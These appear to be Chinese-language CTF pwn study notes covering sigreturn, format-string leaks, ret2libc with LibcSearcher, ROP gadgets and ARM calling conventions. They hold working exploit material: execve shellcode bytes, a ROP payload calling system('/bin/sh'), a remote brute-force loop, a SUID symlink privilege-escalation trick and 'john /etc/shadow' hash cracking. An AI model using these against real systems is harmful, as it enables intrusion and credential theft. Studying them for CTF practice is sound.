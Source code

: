 The flag is not here ~
- https://ctf-wiki.org/
- https://www.toolhelper.cn/Format/Cpp


## 32位的sigreturn调用号为119(0x77)，64位系统调用号为15(0xf)
对于 sigreturn 系统调用来说，在 64 位系统中，sigreturn 系统调用对应的系统调用号为 15，只需要 RAX=15，并且执行syscall 即可实现调用 syscall 调用。而 RAX 寄存器的值又可以通过控制某个函数的返回值来间接控制，比如说 read函数的返回值为读取的字节数。
syscall ; ret : 0f 05 c3

## /bin/sh = /sh = sh，效果一致
## ret到main会在原来的地方开栈
## nb

## fmt读flag
在有pie的情况下可以找(泄露)elf中的某个函数的真实地址来获取pie基址从而获得flag真实地址（类似libc），然后再通过fmt的%s读取（b'flag%7$s'+p64(pie+flag_off)）
## strcmp可以使用\x00进行绕过？
from pwn import *
context(os = 'linux' ,arch = 'amd64' )
i = 0
while True :
        p = remote( '47.97.58.52' , 42000 )
        print ( '<<Times : ' , hex (i))
        p.sendafter( 'her thinking?' , b'\x00' * 0x30 )
        #0x30是read的上限
        try :
                p.recvuntil( "WOW,you can get her!" )
                p.interactive()
        except :
            i = i + 1
            p.close
            continue

## 如果是正常调用 system 函数(plt)，调用时会有一个对应retaddr

## 泄露出可用的gadget偏移，同样使用libc_base+offset
one_gadget libc.so.6

## 沙箱
seccomp-tools dump ./pwn



x/wx w/gx

 
## 软链接
ln -s [exp] [/tmp/echo]之后执行具有suid权限(rwsr--r--中的s)的程序以获取对应用户权限，参考https://www.bilibili.com/video/BV1uM4y1Q7MY/?spm_id_from=pageDriver&vd_source=c525ce304f4270daa217d87f25619231
//exp.c
int main()
{
    system("/bin/bash");
}//gcc -o exp exp.c

 

## 在环境变量前后添加目录
export PATH=/tmp:$PATH
export PATH=$PATH:/tmp

 

## 常用的shellcode有：
32位:
sc=b'\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb0\x0b\xcd\x80'

这个shellcode只有23字节，短小精悍，适合放在栈中去执行
还有一种是通过pwntools生成(44字节)：
from pwn import *
shellcode=asm(shellcraft.sh())#32bit

 
64位：48字节
context(os='linux', arch='amd64')
sc=asm(shellcraft.amd64.sh())

 
## john命令破解密码hash
john /etc/shadow

 
## arm 下的函数调用约定
函数的第 1 ～ 4 个参数分别保存在 r0 ～ r3 寄存器中， 剩下的参数从右向左依次入栈， 被调用者实现栈平衡，函数的返回值保存在 r0 中

arm 的 b/bl 等指令实现跳转; pc 寄存器相当于 x86 的 eip，保存下一条指令的地址，也是我们要控制的目标

#查看文件保护
checksec elf

#搜索关键语句或指令
ropgadget --binary 可执行文件 --string 'str'
ropgadget --binary elf --only 'pop|ret' | grep 'eax'


## pwndbg中使用vmmap查看地址权限
## flat([])函数拼接指令

## libc，而 libc.so 动态链接库中的函数之间相对偏移是固定的。
即使程序有 ASLR 保护，也只是针对于地址中间位进行随机，最低的 12 位并不会发生改变。
https://github.com/niklasb/libc-database ---------https://libc.rip/
https://github.com/lieanu/LibcSearcher
from LibcSearcher import *

#第二个参数，为已泄露的实际地址,或最后12位(比如：d90)，int类型
obj = LibcSearcher("fgets", 0X7ff39014bd90)

obj.dump("system")        #system 偏移
obj.dump("str_bin_sh")    #/bin/sh 偏移
obj.dump("__libc_start_main_ret")    

from LibcSearcher import LibcSearcher
libc = LibcSearcher('__libc_start_main', main_real_addr)
libcbase = main_real_addr - libc.dump('__libc_start_main')
sa = libcbase + libc.dump('system')
ba = libcbase + libc.dump('str_bin_sh')

pl=b'a'*(0x50+8)
pl+=p64(rdi)
pl+=p64(ba)
pl+=p64(ret)
pl+=p64(sa)
sl(pl)

## 一般默认函数的第一参数（仅64位？）
存入rdi寄存器（与位有关 edi、di、dil），第二个参数存入rsi寄存器（esi、si、sil） ，第三个放入rdx寄存器（edx、dx、dl）(
RDI, RSI, RDX, RCX, R8, R9, more on the stack

)
：所以在拼接system('/bin/sh')时，应当寻找rdi（64位）或edi（32位）寄存器并先将'/bin/sh'读取后+_system的地址，
即p64(rdi_ret_addr)+p64(binsh_addr)+p64(_system_addr)
## !!!!!!但通过系统中断（即int 0x80）的参数都存在e[a-d]x中，其中eax为系统调用号，e[b-d]x依次为三个参数

#cyclic+数字 指令可以生成任意长度的字符串
cyclic 200

#判断溢出点距离我们变量的底部位置有多少个长度，输入点到ret
cyclic -l +溢出的地址


execve("/bin/sh",NULL,NULL)
int 0x80

 

## 执行 strcmp 的时候，rdx 会被设置为将要被比较的字符串的长度

## 使用 sys_write 调用
即 int 80h 前 eax 为 4，ebx 为文件描述符 fd，stdout 的文件描述符为 1，ecx 为 buffer 的内存地址，edx 为 buffer 的长度
在调用 sys_read 系统调用前，修改 eax 为 3 自不必说，ebx 改为了 0 即 stdin，

